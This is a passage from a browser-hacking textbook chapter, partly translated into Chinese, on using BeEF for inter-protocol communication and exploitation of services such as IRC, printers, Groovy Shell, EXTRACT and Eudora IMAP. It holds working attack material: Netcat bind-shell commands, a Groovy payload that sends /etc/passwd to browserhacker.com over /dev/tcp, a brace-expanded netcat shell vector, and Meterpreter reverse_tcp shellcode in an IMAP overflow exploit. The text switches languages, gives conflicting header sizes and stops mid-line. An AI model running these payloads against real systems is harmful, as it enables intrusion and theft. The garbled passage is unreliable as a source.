Postfix 版本 2.7.0 对错误的容忍度甚至低于 Exim。它一旦检测到非 SMTP 命令，就会立即断开与客户端的连接：


Aug 10 06:38:17 bt postfix/smtpd[3179]:
connect from browservictim.com[172.16.37.1]

Aug 10 06:38:17 bt postfix/smtpd[3179]:
warning: non-SMTP command from browservictim.com
[172.16.37.1]: POST / HTTP/1.1

Aug 10 06:38:17 bt postfix/smtpd[3179]:
disconnect from browservictim.com[172.16.37.1]
[/content]

[content]
虽然这些 SMTP 服务不具备容错性，但有不少 IMAP 服务已被证明能够满足这一要求。后文将讨论 Eudora IMAP 实现，并展示一个容错协议的示例。

在验证协议实现是否能够妥善处理多余数据后，你需要测试第二个强制性要求。这指的是协议能够封装数据的能力，相关概念将在下一节中进一步探讨。

### 处理数据封装

第二个需要执行的 IPC 任务是确认目标协议能够在 HTTP 协议中进行封装。虽然你无法移除标准的 HTTP 头部，但可以控制部分请求内容。利用这种控制权，你可以创建数据，使其在接收端被视为合法的协议内容。

较为简单的 IPC 协议是基于 ASCII 的，如 IRC 和 LPD。其他协议（如 RDP）则使用二进制而非 ASCII，并且在收到不认识的数据后通常会直接关闭与客户端的连接。在这种情况下，测试数据封装往往没有意义，因为第一个 IPC 要求（容错性）通常会失败。

遗憾的是，JavaScript 无法显式打开原始 TCP 套接字，因此你只能通过 IPC 来实现与目标协议的通信。此外，在处理协议间利用（Inter‑protocol Exploitation）时，你常常需要处理 Shellcode，而 Shellcode 本质上是二进制数据。二进制数据在 JavaScript 中并不易于处理。

 start feature 

* * *

**The Future of Raw TCP Sockets from the Browser** 目前浏览器中没有直接发送原始 TCP 数据的方法。但这并不意味着浏览器开发者没有在研究这项能力。Mozilla WebAPI 团队目前正在研究多项新技术，包括 TCP Socket API。你可以在 [`wiki.mozilla.org/WebAPI`](https://wiki.mozilla.org/WebAPI) 阅读更多关于 TCP Socket API 以及其他新特性的信息。

* * *

 end feature 

Firefox 通过新增 `sendAsBinary()` 方法，在 XMLHttpRequest 对象上支持发送二进制数据。该方法也在第 9 章的 Cross‑origin GlassFish Remote Command Execution 部分中被探讨。

```
if (!XMLHttpRequest.prototype.sendAsBinary) {
  XMLHttpRequest.prototype.sendAsBinary = function (sData) {
    var nBytes = sData.length, ui8Data = new Uint8Array(nBytes);
    for (var nIdx = 0; nIdx < nBytes; nIdx++) {
      ui8Data[nIdx] = sData.charCodeAt(nIdx) & 0xff;
    }
    /* send as ArrayBufferView...: */
    this.send(ui8Data);
  };
}
```

撰写本文时，其他浏览器尚未提供相同的功能。但如果支持 Typed Array，你可以在像基于 WebKit 的 Chrome 和 Safari 等浏览器中重写 `sendAsBinary` 原型，从而实现该功能。下面的代码展示了此做法。

### Inter‑protocol Communication Examples

下面的章节将探讨各种可以通过 IPC 被滥用的协议，甚至可能导致协议间利用（IPE）。你将在本章后续部分进一步研究 IPE，但在此之前，我们先了解几个 IPC 示例。

#### Bind Shell Inter‑protocol Communication Example

探索 IPC 概念的好方法是设置一个简单的监听服务，绑定到一个 shell，也称为 **bind shell**。如果你在未被端口封禁的端口（例如 7777）上启动一个 bind shell，你可以从浏览器跨源访问它，实现双向通信，即既能发送命令，也能读取响应。下面展示在 POSIX 系统上使用 Netcat 创建一个 bind shell 的命令：

```
nc -lvp 7777 -e /bin/sh
```

该命令在端口 7777 上监听，并将接收到的数据直接送到 `/bin/sh` 命令。随后，你可以通过 HTTP POST 请求向该端口发送包含 shell 命令的请求体；如果请求体中的内容是合法的 shell 命令，则会被执行。对于未知命令，shell 会返回 “command not found”：

```
#foobar
foobar: command not found
#
```

这种行为非常适合 IPC，因为 HTTP 头部会被忽略，而其他合法的 shell 命令则会被执行。下图（Figure 10-12）展示了通过跨源 POST 请求向 bind shell 发送数据后，Netcat 的输出——混合了 “command not found” 与语法错误，通信在此例中是单向的。

 start figure 

**Figure 10-12:** 单向通信与 bind shell


 end figure 

下一步是找到获取命令输出的方法，以实现浏览器与 bind shell 之间的完整双向通信。通过一定的创意，你可以利用 shell 中的 `echo` 命令构造 HTTP 响应头部。例如，生成第一个响应头部的指令为：

```
echo -e HTTP/1.1 200 OK\\r;
```

随后你可以继续添加所需的其他头部，如 Content‑Type、Content‑Length，并把命令的执行结果加入响应体。下面的代码片段展示了如何在 Firefox 浏览器中双向交互 bind shell（前文已给出）：

```
[...]
// 创建隐藏的 IFrame 用于 IPC
var ipc_posix_window = document.createElement("iframe");
[...]
// 通过 Hash 标记在父 IFrame 中传递命令执行结果
body2 = "__END_OF_POSIX_IPC__</div><s"+"cript>window.location='" +
parent + "#ipc_result='+encodeURI(" +
"document.getElementById(\\\"ipc_content\\\").innerHTML);</"
+"script></body></html>";

[...]
// 返回 ipc_content，执行命令并把结果（使用 head -c SIZE 限制）发送回
"echo \"" + body1 + "\";(" + cmd + ")|head -c "+size+" ; );
poster.appendChild(response);
[...]
// 等待 <timeout> 秒，直到 IFrame URL 片段匹配 #ipc_result=
function wait() {

try {
 if (/#ipc_result=/.test(document.getElementById("ipc_posix_window").\
contentWindow.location)) {
  var ipc_result = document.getElementById("ipc_posix_window").\
contentWindow.location.href;
  output = ipc_result.substring(ipc_result.indexOf('#ipc_result=')+
12,ipc_result.lastIndexOf('__END_OF_POSIX_IPC__'));
[...]
```

该代码创建了隐藏的 IFrame `ipc_posix_window`，用于在其中注入 HTML 表单以发送 POST 请求。IFrame 同时用于读取编码后的命令结果，这些结果会以 URL 片段（#）的形式追加到 `ipc_result`，例如：

```
http://browserhacker.com/#ipc_result=%0Atcp%20%20%20%20
%20%20%20%200%20%20%20%20%20%200%20127.0.0.1:7337%20%20
%20%20%20%20%20%20%20%20%20%200.0.0.0:*%20%20%20%20%20%20%20
%20%20%20%20%20%20%20%20%20%20%20%20LISTEN%20%20%20%20%20%201545
[...snip...]
__END_OF_POSIX_IPC__
```

HTML 表单包含两个输入框：`response` 与 `endTalkBack`，其 `action` 属性指向 `http://172.16.37.153:7777/index.html?&/bin/sh;`。与之前的示例相同，使用 `multipart/form-data` 的 Content‑Type（也可以使用 `text/plain`）。


The first response input field of the form element contains multiple echo commands that are used to construct the HTTP response, together with the final command to be executed. In this example, the first 4096 bytes of the command results are returned. You can change the result_size variable in the previous code to accommodate for more space if needed.

The second endTalkBack input field contains the __END_OF_POSIX_IPC__ delimiter, the ipc_contentdiv that holds the command results, and a small script that changes the location of the IFrame to the parent one. The parent location is the current location of the page where the JavaScript code is executing:

```
body2 = "__END_OF_POSIX_IPC__</div><s"+"cript>window.location='" +
parent + "#ipc_result='+encodeURI(" +
"document.getElementById(\\\"ipc_content\\\").innerHTML);</"
+"script></body></html>"; 
```

Figure 10-13 shows the raw body of the POST request, where you can see both input fields and their values.

start figure

**Figure 10-13:** Sending the netstat command to the POSIX bind shell


end figure 

When the HTTP response comes back, it contains the command results and the small piece of JavaScript code that changes the location. After the command executes, you can check if the location of the IFrame contains #ipc_result in the URL. This is performed with the wait() function that continues to check the IFrame for a valid response. A typical HTTP response looks like a classic HTML page, as shown in Figure 10-14. Note that the command results are inside the ipc_content div, up to the __END_OF_POSIX_IPC__, and the JavaScript code that changes the IFrame location to browserhacker.com is immediately after that.

start figure

**Figure 10-14:** Command results coming back into the ipc_content div


end figure 

The results of running this JavaScript are shown in Figure 10-15, where you can clearly recognize the output of the netstat command.

start figure

**Figure 10-15:** Bidirectional communication with a bind shell


end figure 

This will work in current versions of Firefox without errors in the JavaScript console. Unfortunately, this technique will not work with WebKit browsers like Chrome or Safari. Instead, you will get SOP violation errors because you can’t communicate between frames with different origins. This is yet another example of how the SOP is inconsistent across browsers.

For browsers other than Firefox, you can employ a modified approach using one of the following two options:

* Issue the cross-origin POST request with XHR, inserting additional headers with the echo command including the Access-Control-Allow-Origin: * headers. The response could then be read directly via an XHR request. The BeEF Bind, which is covered later in this chapter, uses this exact approach.

* Engage the same approach used by XssRays as covered in Chapter 9.

This whole section has been based on the example of a simple Netcat listener bound to the /bin/sh command. It’s not often that you will come across situations like this though. Now that you have an understanding of IPC in a theoretical context, let’s explore some more practical applications.

#### Internet Relay Chat Inter-protocol Communication Example

IRC is an error-tolerant protocol that doesn’t reset the connection if you send data that doesn’t comply with the protocol grammar. This is perfect for you, because the HTTP headers are not going to conform to the protocol specifications. They will simply produce errors and allow you to send your commands from a known state.

Reusing the createIframeIpecForm from BeEF’s JavaScript API, you can join channels and post messages to an IRC server with the following code snippet:

```
var rhost   = 'irc_server';
var rport   = '6667';
var nick    = 'user1234';
var channel = '#channel_1';
var message = 'BeEFed';

var irc_commands = "NICK " + nick + "\n";
irc_commands    += "USER " + nick + " 8 * : " + nick + " user\n";
irc_commands    += "JOIN " + channel + "\n";
irc_commands    += "PRIVMSG " + channel + " :" + message + "\nQUIT\n";

// send commands
var irc_iframe = 
beef.dom.createIframeIpecForm(rhost, rport, 
"/index.html", 
irc_commands);

// clean up
cleanup = function() {
    document.body.removeChild(irc_iframe);
}
setTimeout("cleanup()", 15000);
```

In 2010, multiple IRC server providers such as EFnet, OFTC, and FreeNode were under a sustained attack.29 Attackers were embedding JavaScript code (similar to the previous code snippet) and many users inadvertently triggered the code while browsing to those pages. This resulted in the spamming of multiple IRC channels.30

#### Printer Service Inter-protocol Communication Example

Most multifunction network printers, such as HP and Canon devices, run multiple services. This often includes the implementation of a full TCP/IP stack. These devices are likely to be found in the internal network, and can be fingerprinted easily using the techniques previously described.

Deral Heiland presented research at DEFCON 1931 that focused on attacking network printers. Using the hooked browser as a beachhead proved to be an effective way to send print jobs to internal printers.

Aaron Weaver released a paper called “Cross-site Printing” in 2007 that demonstrated how to send print jobs to network printers from the browser.32 In Weaver’s research, most of the network printers examined exposed the Virata-EmWeb service on TCP port 9100 to listen for raw printing jobs for processing.33 Figure 10-16 shows the output from an nmap scan against a vulnerable HP printer.

start figure

**Figure 10-16:** Nmap printer scan


end figure 

This interface was very basic, and only required you to open a TCP connection to the printer’s port and write some text. Performing this with Netcat is as simple as:

```
$ nc 10.90.1.131 9100
Hi from BeEF!
^C
```

This protocol also turned out to be a perfect candidate for IPC, because nothing prevents you from using an HTTP POST request to send similar data to that port. In addition, every browser allows connections to port 9100, which is not banned. The following code can be used to send “Hi from BeEF!” to the printer:

```
var body = "Hi from BeEF!\n";
var ip = "10.90.1.131";
var port = 9100;
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://" + ip + ":" + port + "/",false);
xhr.setRequestHeader("Content-Type", "text/plain");
xhr.setRequestHeader('Accept','*/*');
xhr.setRequestHeader("Accept-Language", "en");
xhr.send(body);
```

No authentication is required, and IPC can be used. Note that in this case the whole HTTP request is printed, as shown in Figure 10-17.

start figure

**Figure 10-17:** Using IPEC with HP printers


end figure 

Enhancing this attack, you can also send PostScript commands to the printer34 that will be interpreted by the PostScript processor. The advantage of using PostScript enables you to format the page properly, perhaps enabling you to create a more legitimate looking printout. The following code demonstrates using PostScript, and can be used with the previous JavaScript code by changing the body variable:

```
var body = String.fromCharCode(27) + 
"%-12345X@PJL ENTER LANGUAGE = POSTSCRIPT\r\n"
+ "%!PS\r\n"
+ "/Courier findfont\r\n"
+ "20 scalefont\r\n"
+ "setfont\r\n"
+ "72 500 moveto\r\n"
+ "(Demonstrating IPC) show\r\n"
+ "showpage\r\n"
+ String.fromCharCode(27) + "%-12345X";
```


-   [如图 10-18 所示]，结果是一张使用 Courier 字体打印的包含 “Demonstrating IPEC” 内容的页面，位于左下角坐标 72 和 500 处。请注意，PostScript 文件的默认坐标是以 1/72 英寸为单位的。

 start figure 

**Figure 10-18:** IPEC 打印带格式的 PostScript 页面的结果


 end figure 

#### IMAP 协议通信示例

IMAP 协议，特别是第 3 版和第 4 版，是一个可以实现 IPC（协议间通信）的协议的良好示例。虽然协议本身是一个很好的候选者，但其在现实中的适用性受到现代浏览器因端口禁用实施而限制直接访问 TCP 端口 143 的可能性。

在某些情况下，情况可能不同，例如 IMAP 版本 3 在 TCP 端口 220 上运行。此外，一些网络管理员会将服务移动到非标准端口，以隐藏其用途。这可能会通过非禁用的端口提供访问。

无论哪种情况，IMAP 都是一个很好的例子，用于说明浏览器中的攻击。由于其高度教育价值，你在本章中会在多个地方看到它的使用。

为了演示如何在 Firefox 中绕过端口禁用，最简单的方法是向 pref.js 扩展文件中添加以下行：

```
pref("network.security.ports.banned.override", "143");
```

完成后请勿忘记将其删除。正如你稍后将了解到，这个端口被禁用的原因是有充分理由的。

IMAP 实现之所以可以在浏览器中进行 IPC，是因为这些服务通常同时满足 IPC 条件。下面的示例代码尝试向 IMAP 服务器进行认证，然后退出：

```
var server = '172.16.37.151';
var port = '143';
var commands = 'a01 login root password\na002 logout';

var target = "http://" + server + ":" + port + "/abc.html";
var iframe = beef.dom.createInvisibleIframe();

var form = document.createElement('form');
form.setAttribute('name', 'data');
form.setAttribute('action', target);
form.setAttribute('method', 'post');
form.setAttribute('enctype', 'text/plain');

var input = document.createElement('input');
input.setAttribute('id', 'data1')
input.setAttribute('name', 'data1')
input.setAttribute('type', 'hidden');
input.setAttribute('value', commands);
form.appendChild(input);

iframe.contentWindow.document.body.appendChild(form);
form.submit();
```

本例中使用的 IMAP 服务器是 Eudora，后文将用于演示协议间利用。如图 10-19 所示，当 IMAP 服务器收到 POST 请求时，HTTP 头部会被解析为无效命令（“不 recognized 或在当前状态下不合法”）。POST 主体中的 IMAP 命令被正确解析。在此示例中，认证尝试失败是因为我们不知道正确的凭据。

 start figure 

**Figure 10-19:** IPC 导致的 IMAP 服务器日志


 end figure 

你可以在图 10-19 中看到，IMAP 服务器返回 “incorrect password”。在成功登录后，会返回不同的结果，需要加以区分。

一些 IMAP 服务器支持发送电子邮件，这可以用于创建侧信道。根据前文在非 HTTP 服务指纹识别部分的介绍， timing differences 也可以被利用，具体取决于实现。一旦登录，查看 Inbox 的内容通常比未认证的连接错误耗时更长。

前文列出的协议并非 IPC 兼容目标的完整列表。任何满足 IPC 条件（容错性和数据封装）的其他协议实现，都可能通过 IPC 进行交互。下次你在渗透测试中遇到新的潜在 IPC 目标时，请记住这些依赖关系。

### 实现协议间利用

前文讨论了协议间通信，但 Wade Alcorn 的研究并未在此停止。Alcorn 在 2007 年的研究论文中展示了 IPC 技术可以扩展到不仅实现通信，还能实现利用，从而得到协议间利用（Inter-protocol Exploitation，IPE）。这里讨论的某些主题涉及较低层的应用利用。如果你需要更多信息，请不要忘记查阅 The Shellcoder Hacker’s Handbook 2nd Edition。

如果你能够通过 HTTP 与非 HTTP 协议进行通信（如前一节所示），你发送的数据也可以包含 Shellcode。类似于 IPC，IPE 也依赖于容错性和数据封装。

让我们扩展之前用于讨论 IPC 的初始示例。假设一个服务寻找类似以下命令：

```
WRITE <content> <file_path>
```

假设处理 <file_path> 的代码因为未对 <content> 的长度进行检查，而使用 memcpy 将其复制到 1024 字节的缓冲区，导致缓冲区溢出。如果你在查找应用漏洞，可能会尝试对输入进行模糊测试，试图触发崩溃条件。当然，这个虚构的例子会崩溃。

当提交文件路径为 1500 字节的 WRITE 命令时，分析得到的段错误数据表明你可以控制 Extended Instruction Pointer（EIP），并且在内存中有 800 字节的空间用于放置 Shellcode。谁会想到？这个虚构的例子正好满足你对 IPE 的需求！

#### 计算 HTTP 头大小

当你发送包含 Shellcode 的 POST 请求时，往往需要非常精确。你需要指定返回地址应该指向的位置，以及需要多少个 NOP（以及其他垃圾字节）。即使 1 字节的误差也可能导致你试图攻击的监听服务崩溃。这可能导致 Shellcode 未能按预期执行，从而失败。

正如你所学到的，HTTP 头部在目标协议中会被丢弃。但这并不意味着它们不会被解析并加载到你正在向其发送数据的进程的内存中。在某些情况下，这意味着必须计入头部的大小。

验证 HTTP 头部是否存储在内存的最简便方法是向想要分析的进程附加调试器。正如下文在 IMAP 利用示例中讨论的，Eudora WorldMail 版本 6.1.21（及更早版本）在解析 POST 主体内容之前，会先将 HTTP 头部存储在内存中。

此外，你无法事先确定在发送跨源 POST 请求时使用的 HTTP 头部的精确大小。每个浏览器都不同，往往包含不同的 HTTP 头部。你的 exploit 必须可靠，否则 Shellcode 将无法执行，服务可能崩溃。

那么，如何解决这个问题？一种方法是提前确定浏览器提交的跨源请求的头部精确大小。BeEF 通过在独特端口上绑定套接字来模拟跨源情况，向该服务器发送相同的跨源请求。到达套接字的原始 HTTP 请求内容用于计算头部的精确大小。被钩住的浏览器可以随后获取跨源请求长度的 JSON 对象结果。负责计算头部大小并随后将结果返回给被钩住浏览器的代码如下：


# 确定跨域请求的 HTTP 头部的精确大小。
# 需要准确计算垃圾并防止错误。
# 完整 URL 为 <BeEF_server>/api/ipec/junk/<socket_name>

get '/junk/:name' do
  socket_name = params[:name]
  halt 401 if not BeEF::Filters.alphanums_only?(socket_name)
  socket_data = BeEF::Core::NetworkStack::Handlers::AssetHandler. \
                  instance.get_socket_data(socket_name)
  halt 404 if socket_data == nil

  if socket_data.include?("\r\n\r\n")
    result = Hash.new

    headers = socket_data.split("\r\n\r\n").first
    BeEF::Core::NetworkStack::Handlers::AssetHandler. \
      instance.unbind_socket(socket_name)
    print_info "[IPEC] Cross-origin XmlHttpRequest headers \
                size - received from bind socket [#{socket_name}]: \
                #{headers.size + 4} bytes."
    # CRLF -> 4 bytes
    result['size'] = headers.size + 4

    headers.split("\r\n").each do |line|
      if line.include?("Host")
        result['host'] = line.size + 2
      end
      if line.include?("Content-Type")
        result['contenttype'] = line.size + 2
      end
      if line.include?("Referer")
        result['referer'] = line.size + 2
      end
    end
    result.to_json
  else
    print_error "[IPEC] Looks like there is no CRLF  \
                 in the data received!"
    halt 404
  end
end

Armed with this information, NOPs (or any additional garbage sizes) can be reliably calculated on the fly by the hooked browser before sending its exploit payload to the vulnerable service. It is then easy enough to adjust the Host, Content-Type and Referrer headers that will likely be different, to send a cross-origin HTTP request. It will contain the NOPs and Shellcode sizes adjusted to the precision required to execute without error.

One of the issues discussed earlier is whether the service being exploited is storing the HTTP headers in the same buffer as where your Shellcode is landing. This can be particularly important for post-authentication exploits, as discussed in the next examples. You first need valid credentials to access the service, followed by the Shellcode to exploit the stack overflow vulnerability. For example, if you were to try to exploit a vulnerability within an FTP server’s implementation of the MKD command, you would first have to successfully authenticate to the FTP server.

Ty Miller and Michele Orrù presented research into BeEF’s Bind IPE capability at RuxCon 2012.37 Rodrigo Marcos and the SecForce crew extended this research further by successfully exploiting post-authentication vulnerabilities without needing to calculate the length of the HTTP headers first:38

```
var auth = 'USER anonymous\r\nPASS anonymous\r\n';
var payload = 'MKD \x89[…shellcode…]';
var body = auth + payload;
```

They ported an existing exploit for EasyFTP Server to an Inter-protocol Exploit that was submitted within an HTTP POST request body. The request body is generated in the preceding code.

Marcos and the SecForce crew discovered that, in this instance of IPE, the exact HTTP header size was not required. However, this is not always the case. It’s important to remember that depending on the exploit that you’re attempting, you may need a method to calculate the size of the HTTP headers before you submit your exploit payload. Considering this, in addition to error tolerance and data encapsulation, the other dependency that may need to be met to shift from IPC to IPE is the size of the submitted headers.

### Inter-protocol Exploitation Examples

Now that you have considered some requirements for IPE, let’s jump into the more practical Inter-protocol Exploits. The following sections will examine some protocols that can be exploited by sending requests from the browser.

#### Groovy Shell Inter-protocol Exploitation Example

A good example of an IPE attack can be demonstrated against the Groovy Shell Server.39 Groovy Shell Server is a daemonized version of the popular Groovy Shell, a command-line application that enables you to evaluate Groovy code on the fly. It is quite common in environments that rely on Groovy and Grails to speed up the classic development of Java applications using more agile methodologies. In May 2013, Brendan Coles discovered that not only was the Groovy Shell Server vulnerable to Remote Code Execution, but it also met the criteria for IPE. The custom protocol used by this tool is reachable on port 6789 by default, which is also advantageous because port banning does not prevent access to this port.

In this instance, RCE exploitation is easier than more complex overflows, because you don’t have to deal with memory allocation or Shellcode. Because the Groovy Shell accepts any kind of content on port 6789 (as a normal shell environment would do), IPE can be used. It’s just a matter of encapsulating the Groovy code into an HTTP POST request, as shown here:

```
var rhost = '192.168.0.100'; // Targeted host
var rport = '6789'; // Targeted port

// /dev/tcp is supported in most 
// Linux distributions (Debian, Ubuntu, etc..)
var cmd = 'cat /etc/passwd >/dev/tcp/browserhacker.com/8888';

// create the final payload using Groovy's
// "command".execute() method
var payload = "\r\ndiscard\r\nprintln '" + cmd + 
"'.execute().text\r\ngo\r\nexit\r\n";

// send the POST request
beef.dom.createIframeIpecForm(rhost, rport, "/", payload);
```

As you can see from the payload variable value, the command cmd gets executed in a similar way to how Java executes system commands. In Java, you would perform:

```
String cmd = "uname -ra";
Runtime.getRuntime().exec(cmd);
```

Although the Groovy language syntax simplifies this slightly, to perform the same task you would do the following:

```
def cmd = "uname -ra"
cmd.execute()
```

If the server being exploited is running on a Linux operating system that has the /dev/tcp device configured, you can extrude the contents of /etc/passwd to browserhacker.com:8888. There’s nothing preventing you from creating multiple IFrames, each one using a different RCE vector—for example, a Netcat bind or reverse connection—and targeting different platforms.

#### EXTRACT Inter-protocol Exploitation Example

EXTRACT is a Web Information Management System. It allows users to store and search many different kinds of structured data in a database classified in categories. It was found40 to be vulnerable to RCE, once again by Brendan Coles. By default, the custom protocol used by this tool is reachable on TCP port 10100. This is helpful because port banning doesn’t prevent HTTP connections to that port.

Unlike the previous Groovy Shell exploit, this service is slightly trickier. Within the protocol, the createuser command was found to be vulnerable to command execution. However, the expected input cannot contain any spaces, which makes sense because a username shouldn’t have any whitespace characters. Experienced penetration testers may be familiar with the following attack vector that does not contain any spaces:

```
{netcat,-l,-p,1337,-e,/bin/bash}
```

This vector is using the Bracket Expansion feature41 within the Bash shell often found on Linux systems. The previous line will be expanded by Bash, removing the braces, {}, replacing every comma with a space, and finally executing the command.

The final attack vector to exploit the EXTRACT 0.5.1 service is:

```
var cmd = "{netcat,-l,-p,1337,-e,/bin/bash}";
var payload = 'createuser '+cmd+'&>/dev/null; echo;\r\nquit\r\n';
beef.dom.createIframeIpecForm(host, port, "/index.html", payload);
```

If command execution works as expected, you should be able to connect to port 1337 on the target host with Netcat, and get a shell. If the exploited system is behind a firewall, you could use the bind shell IPC methods explored earlier in this chapter.


-   Tim Shelton 发现，Eudora WorldMail IMAP 服务器版本 6.1.21 及更早版本在提交前身份验证的情况下，存在缓冲区溢出漏洞，利用方式是提交一个精心构造的 `LIST` 命令。42 根据对 HTTP 数据（而非 IMAP 数据）的内存分析，发现 HTTP 头部在内存中的存储方式，如图 [Figure 10-20 所示，在已使用 Immunity Debugger 附加到进程后可看到：]

```
start figure
```

**Figure 10-20:** HTTP 头部在进程内存中的存储情况


```
end figure
```

-   要成功利用该服务，需要了解浏览器发送的组合 HTTP 头部的数据长度，因为这决定了你可以在内存中控制数据的放置位置。

-   你可以使用 BeEF 通过前文讨论的 HTTP 头部计算逻辑，分两步完成计算。假设 BeEF 运行在 `browserhacker.com:3000`，且 HTTP 计算服务器监听端口 2000，可用以下 JavaScript 计算正确的 HTTP 头部大小，以便在后续的利用请求中使用：

```javascript
var beef_host = "http://browserhacker.com";
var beef_junk_port = 2000;
var uri = "http://" + beef_host + ":" + beef_junk_port + "/";
var xhr = new XMLHttpRequest();
xhr.open("POST", uri, true);
xhr.setRequestHeader("Content-Type", "text/plain");
xhr.setRequestHeader('Accept','*/*');
xhr.setRequestHeader("Accept-Language", "en");
xhr.send("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" + 
"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
```

-   当套接字收到请求时，BeEF 控制台会报告如下信息：

```
[18:56:06][*] [IPEC] Cross-origin XmlHttpRequest headers
 size - received from bind socket [imapeudora1]: 443 bytes.
```

-   此时 BeEF 服务器已知道跨域 HTTP 请求头的精确大小。下一步是将该正确的大小通知被钩子的浏览器，使其能够构造跨协议漏洞（Inter‑protocol Exploit），将 NOP 与 Shellcode 放置在正确的内存位置。

-   在本例中，你希望使用 Metasploit 的 `Meterpreter reverse_tcp` 负载，而不是自行构造恶意负载。假设反向连接监听器位于 `172.16.37.1:9999`，下面的 Metasploit 命令会为你生成 Shellcode：

```javascript
msf payload(reverse_tcp) > use payload/windows/meterpreter/reverse_tcp
msf payload(reverse_tcp) > set LHOST 172.16.37.1
LHOST => 172.16.37.1
msf payload(reverse_tcp) > set LPORT 9999
LPORT => 9999
msf payload(reverse_tcp) > generate -b "\x00\x0a\x0d\x20\x7b"
# windows/meterpreter/reverse_tcp - 317 bytes (stage 1)
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LHOST=172.16.37.1, LPORT=9999, 
buf = 
"\xda\xdf\xd9\x74\x24\xf4\xbe\xba\xeb\xc6\xfc\x5a\x29\xc9" +
"\xb1\x49\x83\xea\xfc\x31\x72\x15\x03\x72\x15\x58\x1e\x3a" +
"\x14\x15\xe1\xc3\xe5\x45\x6b\x26\xd4\x57\x0f\x22\x45\x67" +
"\x5b\x66\x66\x0c\x09\x93\xfd\x60\x86\x94\xb6\xce\xf0\x9b" +
"\x47\xff\x3c\x77\x8b\x9e\xc0\x8a\xd8\x40\xf8\x44\x2d\x81" +
"\x3d\xb8\xde\xd3\x96\xb6\x4d\xc3\x93\x8b\x4d\xe2\x73\x80" +
"\xee\x9c\xf6\x57\x9a\x16\xf8\x87\x33\x2d\xb2\x3f\x3f\x69" +
"\x63\x41\xec\x6a\x5f\x08\x99\x58\x2b\x8b\x4b\x91\xd4\xbd" +
"\xb3\x7d\xeb\x71\x3e\x7c\x2b\xb5\xa1\x0b\x47\xc5\x5c\x0b" +
"\x9c\xb7\xba\x9e\x01\x1f\x48\x38\xe2\xa1\x9d\xde\x61\xad" +
"\x6a\x95\x2e\xb2\x6d\x7a\x45\xce\xe6\x7d\x8a\x46\xbc\x59" +
"\x0e\x02\x66\xc0\x17\xee\xc9\xfd\x48\x56\xb5\x5b\x02\x75" +
"\xa2\xdd\x49\x12\x07\xd3\x71\xe2\x0f\x64\x01\xd0\x90\xde" +
"\x8d\x58\x58\xf8\x4a\x9e\x73\xbc\xc5\x61\x7c\xbc\xcc\xa5" +
"\x28\xec\x66\x0f\x51\x67\x77\xb0\x84\x27\x27\x1e\x77\x87" +
"\x97\xde\x27\x6f\xf2\xd0\x18\x8f\xfd\x3a\x31\x25\x07\xad" +
"\x92\xa9\x22\x2c\x83\xcb\x2c\x09\x5c\x42\xca\x3f\x72\x02" +
"\x44\xa8\xeb\x0f\x1e\x49\xf3\x9a\x5a\x49\x7f\x28\x9a\x04" +
"\x88\x45\x88\xf1\x78\x10\xf2\x54\x86\x8f\x99\x58\x12\x2b" +
"\x08\x0e\x8a\x31\x6d\x78\x15\xca\x58\xf2\x9c\x5e\x23\x6d" +
"\xe1\x8e\xa3\x6d\xb7\xc4\xa3\x05\x6f\xbc\xf7\x30\x70\x69" +
"\x64\xe9\xe5\x91\xdd\x5d\xad\xf9\xe3\xb8\x99\xa6\x1c\xef" +
"\x1b\x9b\xca\xd6\x99\xed\x78\x3b\x62"
```

-   根据前文的 HTTP 头部计算，你已确定需要考虑 423 字节的头部。你之前计算的 Shellcode 总大小为 769 字节，这足以使用 Meterpreter Stager 负载。但仍需根据实际可用空间动态调整 NOP 数量，防止 Shellcode 未能正确落在内存中。

-   可用以下 JavaScript 发送 Stager 给 IMAP 服务，在计算出可用空间和 HTTP 头部大小后：

```javascript
var stager = "B33FB33F" +
"\xda\xdf\xd9\x74\x24\xf4\xbe\xba\xeb\xc6\xfc\x5a\x29\xc9" +
"\xb1\x49\x83\xea\xfc\x31\x72\x15\x03\x72\x15\x58\x1e\x3a" +
"\x14\x15\xe1\xc3\xe5\x45\x6b\x26\xd4\x57\x0f\x22\x45\x67" +
"\x5b\x66\x66\x0c\x09\x93\xfd\x60\x86\x94\xb6\xce\xf0\x9b" +
"\x47\xff\x3c\x77\x8b\x9e\xc0\x8a\xd8\x40\xf8\x44\x2d\x81" +
"\x3d\xb8\xde\xd3\x96\xb6\x4d\xc3\x93\x8b\x4d\xe2\x73\x80" +
"\xee\x9c\xf6\x57\x9a\x16\xf8\x87\x33\x2d\xb2\x3f\x3f\x69" +
"\x63\x41\xec\x6a\x5f\x08\x99\x58\x2b\x8b\x4b\x91\xd4\xbd" +
"\xb3\x7d\xeb\x71\x3e\x7c\x2b\xb5\xa1\x0b\x47\xc5\x5c\x0b" +
"\x9c\xb7\xba\x9e\x01\x1f\x48\x38\xe2\xa1\x9d\xde\x61\xad" +
"\x6a\x95\x2e\xb2\x6d\x7a\x45\xce\xe6\x7d\x8a\x46\xbc\x59" +
"\x0e\x02\x66\xc0\x17\xee\xc9\xfd\x48\x56\xb5\x5b\x02\x75" +
"\xa2\xdd\x49\x12\x07\xd3\x71\xe2\x0f\x64\x01\xd0\x90\xde" +
"\x8d\x58\x58\xf8\x4a\x9e\x73\xbc\xc5\x61\x7c\xbc\xcc\xa5" +
"\x28\xec\x66\x0f\x51\x67\x77\xb0\x84\x27\x27\x1e\x77\x87" +
"\x97\xde\x27\x6f\xf2\xd0\x18\x8f\xfd\x3a\x31\x25\x07\xad" +
"\x92\xa9\x22\x2c\x83\xcb\x2c\x09\x5c\x42\xca\x3f\x72\x02" +
"\x44\xa8\xeb\x0f\x1e\x49\xf3\x9a\x5a\x49\x7f\x28\x9a\x04" +
"\x88\x45\x88\xf1\x78\x10\xf2\x54\x86\x8f\x99\x58\x12\x2b" +
"\x08\x0e\x8a\x31\x6d\x78\x15\xca\x58\xf2\x9c\x5e\x23\x6d" +
"\xe1\x8e\xa3\x6d\xb7\xc4\xa3\x05\x6f\xbc\xf7\x30\x70\x69" +
"\x64\xe9\xe5\x91\xdd\x5d\xad\xf9\xe3\xb8\x99\xa6\x1c\xef" +
"\x1b\x9b\xca\xd6\x99\xed\x78\x3b\x62";

/*
 * Egg Hunter (Skape's NtDisplayString technique).
 * 原始大小：32 字节
 */
var egg_hunter =
